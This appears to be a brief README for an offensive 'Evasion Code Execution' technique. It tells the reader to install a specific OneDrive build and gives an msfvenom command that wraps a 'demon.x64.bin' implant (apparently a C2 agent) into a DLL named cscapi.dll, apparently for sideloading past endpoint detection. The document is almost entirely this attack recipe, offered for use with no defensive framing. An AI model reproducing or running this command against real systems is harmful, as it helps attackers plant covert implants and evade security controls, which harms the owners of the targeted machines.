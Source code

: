 # Evasion Code Execution

Make sure OneDrive Last released build 25.070.0413.0001 is installed <https://go.microsoft.com/fwlink/?linkid=844652>
```bash
cat demon.x64.bin | msfvenom -p - -a x64 --platform windows -f dll -o cscapi.dll
```

![Screenshot](./images/codeexec_medr.jpg)